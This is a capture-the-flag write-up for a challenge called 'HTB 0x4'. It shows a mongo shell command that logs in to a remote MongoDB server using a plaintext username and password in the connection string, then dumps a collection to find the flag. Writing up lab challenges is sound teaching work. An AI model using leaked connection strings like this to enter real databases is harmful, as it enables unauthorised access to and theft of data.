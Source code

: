 # HTB 0x4

Author: [thebongy](https://github.com/thebongy) and [roerohan](https://github.com/roerohan)

## Description

Hackthebox challenge 4.

## Requirements

- Docker

## Sources

```
Server is at 34.93.215.188.
```

## Exploit

You will need the mongo connection string from [HTB 0x4](../HTB%200x4), then you can log in to the database and view documents in the `stuff` collection.

```bash
$ mongo mongodb://web:9EAC744765EA6F26@34.93.215.188:27017/HTBDB

> db.stuff.find({})
{ "_id" : ObjectId("5f159c81466eb801258dc20b"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c86466eb801258dc20c"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c97466eb801258dc20d"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c98466eb801258dc20e"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c99466eb801258dc20f"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9a466eb801258dc210"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9b466eb801258dc211"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9b466eb801258dc212"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9b466eb801258dc213"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9b466eb801258dc214"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9c466eb801258dc215"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9c466eb801258dc216"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9c466eb801258dc217"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9c466eb801258dc218"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159c9d466eb801258dc219"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159d26466eb801258dc21a"), "flag" : "csictf{m0ng0_c0llect10ns_yay}" }
{ "_id" : ObjectId("5f159d29466eb801258dc21b"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159d2b466eb801258dc21c"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159d2d466eb801258dc21d"), "flag" : "blaakdjdoifjadf" }
{ "_id" : ObjectId("5f159d2e466eb801258dc21e"), "flag" : "blaakdjdoifjadf" }
Type "it" for more
```

You can see the flag in a documents.
<br />

The flag is:

```
csictf{m0ng0_c0llect10ns_yay}
```